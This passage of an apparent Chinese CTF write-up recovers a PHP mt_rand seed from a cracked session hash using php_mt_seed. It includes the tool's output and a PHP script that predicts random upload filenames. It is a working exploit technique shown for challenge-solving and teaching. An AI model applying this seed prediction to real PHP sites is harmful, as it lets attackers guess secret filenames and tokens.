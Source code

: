 返回的

> SESSI0N=3d097941ce294aebbcf61c4ab9ea5499

去cmd5破解出第一个随机数

> 429127491

所以去crack出seed

> (base) root@VM-0-11-ubuntu:~/php_mt_seed-4.0# ./php_mt_seed 429127491
> Pattern: EXACT
> Version: 3.0.7 to 5.2.0
> Found 0, trying 0xfc000000 - 0xffffffff, speed 2692.9 Mseeds/s
> Version: 5.2.1+
> Found 0, trying 0x06000000 - 0x07ffffff, speed 15.6 Mseeds/s
> seed = 0x07a89d59 = 128490841 (PHP 5.2.1 to 7.0.x; HHVM)
> Found 1, trying 0x8c000000 - 0x8dffffff, speed 15.6 Mseeds/s 128490841
> seed = 0x8c438db1 = 2353237425 (PHP 7.1.0+)
> Found 2, trying 0xfe000000 - 0xffffffff, speed 15.6 Mseeds/s

最后试出来的是PHP 5.2.1 to 7.0.x的128490841

所以模拟源代码跑出文件名前缀

```php
<?php
    $seed = "128490841";
    mt_srand($seed);
    $ss = mt_rand();
    $session_id="";
    $hash1 = md5($session_id. $ss);
	// 这里的hash2只是为了验证最终得出的数是否是返回的SESSI0N
    $hash2 = "3d097941ce294aebbcf61c4ab9ea5499";
    if($hash1===$hash2){
        echo './uP1O4Ds/' . random_str() . '_';
    }
    else {
        echo "";
    }


    function random_str($length = "32")
    {
        $set = array("a", "A", "b", "B", "c", "C", "d", "D", "e", "E", "f", "F",
            "g", "G", "h", "H", "i", "I", "j", "J", "k", "K", "l", "L",
            "m", "M", "n", "N", "o", "O", "p", "P", "q", "Q", "r", "R",
            "s", "S", "t", "T", "u", "U", "v", "V", "w", "W", "x", "X",
            "y", "Y", "z", "Z", "1", "2", "3", "4", "5", "6", "7", "8", "9");
        $str = '';

        for ($i = 1; $i <= $length; ++$i) {
            $ch = mt_rand(0, count($set) - 1);
            $str .= $set[$ch];
        }

        return $str;
    }

```
